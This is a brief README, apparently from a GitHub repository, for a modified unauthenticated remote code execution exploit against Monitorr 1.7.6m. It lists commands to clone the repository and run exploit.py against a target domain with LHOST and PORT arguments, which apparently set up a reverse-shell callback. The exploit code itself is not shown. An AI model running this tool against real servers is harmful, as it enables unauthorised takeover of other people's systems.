 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git``
``cd monitorr_1.7.6m_remote_code_execution_modified``

``python exploit.py https://domain.com LHOST PORT``

